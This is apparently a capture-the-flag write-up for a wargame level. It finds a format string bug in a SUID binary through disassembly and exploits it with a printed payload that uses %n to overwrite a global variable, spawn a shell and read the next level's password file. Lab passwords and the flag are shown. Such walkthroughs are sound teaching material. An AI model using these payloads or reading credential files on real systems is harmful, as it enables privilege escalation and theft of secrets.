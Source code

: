 login as the user `level3`

```shell
$ ssh -p 4242 level3@10.13.100.189
level3@10.13.100.189's password: 492deb0e7d14c4b5695173cca843c4384fe52d0857c2b0718e1a521a4d33ec02
  GCC stack protector support:            Enabled
  Strict user copy checks:                Disabled
  Restrict /dev/mem access:               Enabled
  Restrict /dev/kmem access:              Enabled
  grsecurity / PaX: No GRKERNSEC
  Kernel Heap Hardening: No KERNHEAP
 System-wide ASLR (kernel.randomize_va_space): Off (Setting: 0)
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      FILE
No RELRO        No canary found   NX disabled   No PIE          No RPATH   No RUNPATH   /home/user/level3/level3
level3@RainFall:~$
```

a `SUID` exactable file is locates in the home directory

```shell
level3@RainFall:~$ ls -l
-rwsr-s---+ 1 level4 users 5366 Mar  6  2016 level3
level3@RainFall:~$ ./level3
f
f
```

after inspecting the program with gdb  we find the following

```gdb
(gdb) disas main
Dump of assembler code for function main:
   0x0804851a <+0>:     push   %ebp
   0x0804851b <+1>:     mov    %esp,%ebp
   0x0804851d <+3>:     and    $0xfffffff0,%esp
   0x08048520 <+6>:     call   0x80484a4 <v>
   0x08048525 <+11>:    leave
   0x08048526 <+12>:    ret
End of assembler dump.
(gdb) disas v
Dump of assembler code for function v:
   0x080484a4 <+0>:     push   %ebp
   0x080484a5 <+1>:     mov    %esp,%ebp
   0x080484a7 <+3>:     sub    $0x218,%esp
   0x080484ad <+9>:     mov    0x8049860,%eax
   0x080484b2 <+14>:    mov    %eax,0x8(%esp)
   0x080484b6 <+18>:    movl   $0x200,0x4(%esp)
   0x080484be <+26>:    lea    -0x208(%ebp),%eax
   0x080484c4 <+32>:    mov    %eax,(%esp)
   0x080484c7 <+35>:    call   0x80483a0 <fgets@plt>
   0x080484cc <+40>:    lea    -0x208(%ebp),%eax
   0x080484d2 <+46>:    mov    %eax,(%esp)
   0x080484d5 <+49>:    call   0x8048390 <printf@plt>
   0x080484da <+54>:    mov    0x804988c,%eax
   0x080484df <+59>:    cmp    $0x40,%eax
   0x080484e2 <+62>:    jne    0x8048518 <v+116>
   0x080484e4 <+64>:    mov    0x8049880,%eax
   0x080484e9 <+69>:    mov    %eax,%edx
   0x080484eb <+71>:    mov    $0x8048600,%eax
   0x080484f0 <+76>:    mov    %edx,0xc(%esp)
   0x080484f4 <+80>:    movl   $0xc,0x8(%esp)
   0x080484fc <+88>:    movl   $0x1,0x4(%esp)
   0x08048504 <+96>:    mov    %eax,(%esp)
   0x08048507 <+99>:    call   0x80483b0 <fwrite@plt>
   0x0804850c <+104>:   movl   $0x804860d,(%esp)
   0x08048513 <+111>:   call   0x80483c0 <system@plt>
   0x08048518 <+116>:   leave
   0x08048519 <+117>:   ret
End of assembler dump.
```

we notice that the program reads input from stdin using `fgets` then passes that input as the format string of `printf`. <br>
then the program checks the value of the global variable `m`, if it matches the value `64` it then spawns a shell.

let see if we can exploit this behavior by passing malicious input

```shell
level3@RainFall:~$ objdump -t ./level3  | grep .bss
08049860 l    d  .bss   00000000              .bss
08049884 l     O .bss   00000001              completed.6159
08049888 l     O .bss   00000004              dtor_idx.6161
08049860 g     O .bss   00000004              stdin@@GLIBC_2.0
0804988c g     O .bss   00000004              m
08049880 g     O .bss   00000004              stdout@@GLIBC_2.0
08049844 g       *ABS*  00000000              __bss_start
```

m is a global variable of size 4 bytes located at the address `0x804988c`

```shell
level3@RainFall:~$ ./level3
%p %p Hello world
0x200 0xb7fd1ac0 Hello world
```

it works we can format the input string to read and write to the program's memory

all we have to do is update the value of the variable `m` to pass the challenge <br>
we can use the `%n` flag in print f to write the number of currently printed characters at a specific memory address.

```shell
level3@RainFall:~$ (python -c "print '\x8c\x98\x04\x08' + 'A' * 60 + '%4\$n'"; cat) | ./level3
�AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
Wait what?!
cat /home/user/level4/.pass
b209ea91ad69ef36f2cf0fcbbc24c739fd10464cf545b20bea8572ebdc3c36fa
```

